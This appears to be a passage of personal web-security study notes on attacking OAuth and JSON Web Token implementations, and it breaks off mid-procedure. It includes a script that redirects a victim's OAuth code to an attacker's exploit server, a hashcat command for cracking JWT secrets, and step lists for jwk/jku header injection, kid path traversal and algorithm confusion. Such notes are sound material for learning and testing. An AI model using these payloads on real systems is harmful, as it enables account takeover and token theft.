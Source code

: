     Reconnaissance:
    
    - Endpoints that the authorization server may have:
        - **`/.well-known/oauth-authorization-server`**
        - **`/.well-known/openid-configuration`**
    - If it's possible to register clients dynamically, there may be an endpoint for registering clients
    - Can you impersonate the victim using your own token?
    - If the authorization server does not validate **`redirect_uri`**, you can steal the authorization code.
    
    ```
    <script>
    var client_id = '***';
    var oauth_server = '***';
    var exploit_server = '***';
    
    location = `${oauth_server}/auth?client_id=${client_id}&redirect_uri=${exploit_server}/oauth-callback&response_type=code&scope=openid%20profile%20email`;
    </script>
    ```
    
    - An open redirect vulnerability can be leveraged to steal an access token attached to a hash fragment that does not get sent to the server.
    - If the first endpoint of the authentication flow does not include the "state" parameter, it may be vulnerable to Forced OAuth profile linking.
    
    # JSON Web Token
    
    - Payload can be simply overwritten because signature verification is not implemented
    - alg: none
    - Weak private keys can be brute-forced
        - hashcat -a 0 -m 16500 --force <jwt> jwt.secrets.list
        - m 16500 refers to JWT
    - jwk header injection
        - Create a new public key
        - Modify sub to the victim
        - In Burp Repeater's JSON Web Token view, select Attack -> Embedded JWK -> select the created key
    - jku header injection
        - Create a new public key
        - Copy Public Key as JWK
        - Upload {"keys": [paste]} to the exploit server
        - Modify the sub parameter of the JWT to the victim and match the kid parameter to the server-uploaded value
        - Sign with the previous key
    - The kid parameter has path traversal vulnerability
        - Gradually increase ../ by setting kid to ../dev/null
        - Use AA== as the Base64-encoded secret key
        - Creating JWT is convenient using jwt.io
    - Algorithm confusion
        - Occurs when the implementer assumes RS256, but the library accepts both RS256 and HS256 based on the header
        - Misuse flow
            - (Assuming that the X.509 PEM format key is stored on the target server)
            - Obtain jwk with /jwks.json or /.well-known/jwks.json
            - Convert public key to the appropriate format
                - Copy the public key to the JWT Editor Keys tab
                - Press New RSA Key and paste the jwk key to generate a new key in JWK format
                - Press the PEM radio button to convert to PEM
                - Base64-encode PEM and copy it
                - Return to the JWT Editor Keys tab and select New Symmetric Key
                - Click Generate in the dialog box to generate a new key in JWK format
                - Replace the value of the k parameter with the value copied in step 4
            - Modify the JWT
                - Change alg header to HS256